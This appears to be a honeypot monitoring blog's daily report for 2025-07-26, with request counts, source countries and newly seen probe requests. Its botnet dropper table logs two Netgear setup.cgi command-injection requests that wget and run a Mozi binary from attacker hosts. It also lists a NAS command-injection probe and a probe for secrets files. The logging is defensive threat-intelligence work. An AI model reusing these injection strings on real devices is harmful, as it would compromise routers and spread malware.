 ```yaml
---
title: "Report: 2025-07-26 "
date: 2025-07-26
desciption: "Report: 2025-07-26" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-26 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 2 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 649 requests were recorded during the day, originating from 2 different countries, with a peak of 432 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| KR               | Germany            |
| JP               | Germany            |
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.182.134.88 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.182.134.88:44902/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 103.158.171.53 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.158.171.53:60763/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                  |
|----:|----------------------:|:-----------------------------------------------------------------------------------------|
|  93 |                     2 | GET /.env-config.js HTTP/1.1                                                             |
| 169 |                     1 | GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=ZWNobwltZW93 HTTP/1.0 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   432 | US                 |
|  1 |                    80 | GB                 |
|  2 |                    17 | BG                 |
|  3 |                    16 | PL                 |
|  4 |                    15 | DE                 |
|  5 |                    12 | NL                 |
|  6 |                    12 | SC                 |
|  7 |                     8 | RU                 |
|  8 |                     8 | ZA                 |
|  9 |                     6 | RO                 |
| 10 |                     5 | CN                 |
| 11 |                     4 | CA                 |
| 12 |                     4 | SG                 |
| 13 |                     3 | JP                 |
| 14 |                     3 | MU                 |
| 15 |                     3 | LT                 |
| 16 |                     3 | UA                 |
| 17 |                     3 | FR                 |
| 18 |                     2 | KZ                 |
| 19 |                     2 | KR                 |
| 20 |                     2 | IN                 |
| 21 |                     1 | ES                 |
| 22 |                     1 | EE                 |
| 23 |                     1 | PT                 |
| 24 |                     1 | AE                 |
| 25 |                     1 | SE                 |
| 26 |                     1 | GR                 |
| 27 |                     1 | ID                 |
| 28 |                     1 | CZ                 |
| 29 |                     1 | MC                 |
